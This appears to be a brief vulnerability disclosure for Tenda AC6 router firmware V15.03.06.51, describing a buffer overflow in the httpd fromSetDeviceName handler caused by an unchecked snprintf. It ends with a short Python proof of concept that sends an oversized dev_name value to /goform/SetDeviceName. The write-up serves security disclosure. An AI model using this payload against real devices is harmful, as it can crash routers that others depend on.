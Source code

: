# buffer overflow

## Tenda_AC6

version: V15.03.06.51

## Description:

There is a buffer overflow in httpd/fromSetDeviceName

## Source:

you may download it from : https://www.tendacn.com/download/detail-3794.html

## Analyse:


![](2.png)

get value from devName ,send to set_device_name

![](3.png)

and dont send the mac ,we can get into else

finally call snprint ,dont check the length ,cause buff overflow



## POC
```
url = "http://192.168.1.13/goform/SetDeviceName"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={'dev_name': payload})
``` 
